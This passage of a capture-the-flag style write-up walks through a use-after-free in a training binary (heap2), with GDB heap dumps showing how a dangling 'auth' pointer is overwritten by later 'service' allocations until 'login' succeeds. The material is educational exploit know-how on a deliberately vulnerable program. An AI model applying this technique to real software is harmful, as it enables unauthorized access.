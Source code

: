 If we `reset` it:
```bash
reset 

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x00000000	0x0000000a
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$7 = {name = "\000\000\000\000\n\000\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\341\017\000", auth = 0}
--service-----------------------------------
$8 = 0x804c018 " BBBB\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
```
As we can see on address `0x804c008` the heap memory is being freed but as we know at the beginning this code contains bug, it's not enough to `free` the memory without setting the `auth` to null in this case, it's dangling pointer, we can use it after we free it to do whatever we want. Next, what if we add more `service`?

```bash
service CCCC

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x43434320	0x00000a43
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$9 = {name = " CCCC\n\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\341\017\000", auth = 0}
--service-----------------------------------
$10 = 0x804c008 " CCCC\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c008 ]
service DDDD

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x43434320	0x00000a43
0x804c010:	0x00000000	0x00000011	0x42424220	0x00000a42
0x804c020:	0x00000000	0x00000011	0x44444420	0x00000a44
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$11 = {name = " CCCC\n\000\000\000\000\000\000\021\000\000\000 BBBB\n\000\000\000\000\000\000\021\000\000", auth = 1145324576}
--service-----------------------------------
$12 = 0x804c028 " DDDD\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c028 ]
```
Somehow the `auth->auth` variable modified `auth = 1145324576`, it's just a decimal version of hex `0x44444420`, see `0x804c028`. And if we `login` we passed the challenge:
```bash
login
```